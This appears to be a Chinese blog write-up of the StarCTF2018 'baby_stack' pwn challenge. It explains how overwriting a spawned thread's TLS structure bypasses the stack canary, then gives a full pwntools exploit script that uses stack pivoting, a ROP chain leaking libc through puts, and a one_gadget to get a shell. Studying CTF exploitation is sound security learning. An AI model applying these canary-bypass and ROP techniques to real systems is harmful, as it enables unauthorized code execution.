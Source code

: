 #### emmmm今天把手机摔坏导致很不爽，于是搞了好几个小时这个题，最后发现自己是个rz orz


### StarCTF2018 baby_stack
今天等修手机的时候想起昨天看到ichunqiu新春战役的BFnote里利用覆写TLS结构体bypass了canary，于是就很好奇其具体原理，查了一波发现，那一题是利用libc2.23的特殊机制覆写了main线程的TLS，然后找到另一个覆写TLS结构体的题，即是本题，不过不同的是，本题直接利用pthread_create函数，加了个线程出来，然后由于该线程的栈在其TLS结构体之上，所以可以覆写成功。


这一题是我知道原理之后纯动调做的orz，就先打个断点，康康canary的值，之后跟进，直接find canary，查到其在内存中的所有位置，发现有四处，其中一处是在main线程的TLS，两处是在新线程的栈，一处是在新线程的TLS结构，然后算出偏移，直接全部覆写成'\x00'，然后由于改了TLS（TLS结构体里本身有些随机的量，例如一些在libc上的地址什么的，第一次覆写肯定无法保持，只能全覆写成0了），所以需要栈迁移一下，就read payload到新栈，然后劫持栈到新栈即可，然后似乎是由于payload长度的关系，我一度想写'/bin/sh\x00'，然后call system来getshell，但是始终不行，动调了俩小时，毫无起色，甚至我都跟着system源码单步调试了，发现似乎是payload的某个地方的覆写导致的，然后换成了one_gadget，一梭搞定，orz，原地自闭，下面贴一下exp。（one_gadget 我直接用的本地的，是2.27的，打远程的话，第一次leak出版本再获取一样的）

```
p = process('./baby_stack')

puts_plt = 0x4006F0
read_got = 0x601FD0
puts_got = 0x601FB0
new_stack = 0x602400
init_pop = 0x400B6A
init_mov = 0x400B50

pop_rdi = 0x400b73
pop_rbp = 0x4007d8
leave = 0x4008a6

fake_canary = '\x00' * 8
first_offset = 0xB0
second_offset = 0x820

fake_TLS = p64(0x603270)
fake_TLS += p64(0)
fake_TLS += p64(1)
fake_TLS += p64(0)
fake_TLS += fake_canary

rop_chain = p64(init_pop)
rop_chain += p64(0)
rop_chain += p64(1)
rop_chain += p64(read_got)
rop_chain += p64(0)
rop_chain += p64(new_stack)
rop_chain += p64(0x400)
rop_chain += p64(init_mov)
rop_chain += '\x00' * 0x38
rop_chain += p64(pop_rbp)
rop_chain += p64(new_stack - 8)
rop_chain += p64(leave)

payload = '\x00' * 0x101b
payload += rop_chain
payload += '\x00' * (second_offset - 16 - len(rop_chain))
payload += fake_TLS

p.recvuntil('How many bytes do you want to send?')
p.send(str(len(payload)))

sleep(1)
p.send(payload)

sleep(1)
p.send('\x00' * 3)

rop_chain = p64(init_pop)
rop_chain += p64(0)
rop_chain += p64(1)
rop_chain += p64(read_got)
rop_chain += p64(0)
rop_chain += p64(new_stack + 0x400)
rop_chain += p64(0x400)
rop_chain += p64(init_mov)
rop_chain += '\x00' * 0x38
rop_chain += p64(pop_rbp)
rop_chain += p64(new_stack + 0x400 - 8)
rop_chain += p64(leave)

payload = p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += rop_chain

p.recvuntil('It\'s time to say goodbye.')
p.send(payload)

p.recvline()
puts_addr = u64(p.recv(6).ljust(8, '\x00'))
obj = LibcSearcher('puts', puts_addr)
base_addr = puts_addr - obj.dump('puts')
one_gadget = 0x4f322 + base_addr

sleep(1)
p.send(p64(one_gadget))

p.interactive()
```

本来还想水一期栈迁移和SROP的博客，但最近事情太多了，还要赶紧学堆，就先鸽了，以后有时间把return to VDSO和SROP一块写了: - )
